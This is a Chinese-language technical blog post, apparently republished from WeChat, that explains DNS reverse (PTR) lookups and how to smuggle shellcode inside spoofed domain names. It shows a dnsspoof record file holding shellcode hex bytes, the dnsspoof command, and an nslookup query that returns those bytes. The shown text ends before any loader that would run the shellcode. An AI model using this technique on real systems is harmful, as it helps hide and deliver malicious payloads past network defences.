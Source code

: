 ```yaml
---
title: 利用DNS 反向解析执行shellcode
date: 2023-12-01T09:28:15.000Z
updated: 2023-12-01T09:28:15.000Z
published: 2022-03-07T09:28:15.000Z
taxonomies:
  tags:
    - Tech
extra:
  source: https://mp.weixin.qq.com/s/ImP59jzxfJPTX212rE_B1g?utm_source=pocket_reader
  hostname: mp.weixin.qq.com
  author: 罗逸
  original_title: 利用DNS 反向解析执行shellcode
  original_lang: zh-CN

---
```


**0x01 什么是DNS反向解析**

DNS 反向解析即通过查找IP地址的PTR记录来得到该IP地址指向的域名。如图：

![Image](svg3E.svg)

如上图，我们得到了23.2.142.216这个IP反向解析出的域名是a23-2-142-216.deploy.static.akamaitechnologies.com。  

**0x02 利用思路**

既然可以指定DNS服务器，解析自己的域名，那我们就可以根据解析多个IP地址的域名来拼接得到我们想要的数据。

## **2.1 工具dnsspoof**

dnsspoof是一款DNS欺骗工具，我们使用-f来指定欺骗的域名。

如：

dns.txt里有下面一条指定欺骗的域名记录

```
192.168.1.0 "fc4883e4f0e8c8000000415141505251564831d265488b5260488b521848.google.com"
```

## 启动DNS欺骗

```
dnsspoof -f dns.txt
```

nslookup查询DNS反向解析结果

```
λ nslookup 192.168.1.0 10.0.0.8DNS request timed out.    timeout was 2 seconds.服务器:  UnKnownAddress:  10.0.0.8名称:    "fc4883e4f0e8c8000000415141505251564831d265488b5260488b521848.google.com"Address:  192.168.1.0
```
